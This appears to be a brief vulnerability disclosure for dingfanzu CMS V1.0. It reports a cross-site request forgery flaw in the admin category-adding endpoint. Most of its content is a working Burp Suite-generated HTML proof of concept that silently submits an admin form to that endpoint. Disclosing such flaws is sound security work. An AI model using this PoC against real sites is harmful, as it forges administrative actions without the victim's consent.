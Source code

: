 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=addCate

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=addCate" method="POST">
      <input type="hidden" name="act" value="addCate" />
<input type="hidden" name="cname" value="cs" />
<input type="hidden" name="weight" value="1" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

